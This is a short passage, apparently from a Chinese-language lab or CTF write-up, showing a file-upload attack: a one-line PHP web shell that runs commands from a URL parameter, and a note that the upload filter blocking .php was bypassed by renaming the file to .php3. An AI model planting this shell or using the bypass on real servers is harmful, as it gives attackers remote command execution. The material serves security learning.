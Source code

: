 - 上传PHP脚本

		<?php
		  system($_GET['cmd']);
		?>
	- 点击add之后发现上传失败，php被过滤

	![](image/37.png)

	- 扩展名改为php3时上传成功

	![](image/38.png)

	![](image/41.png)
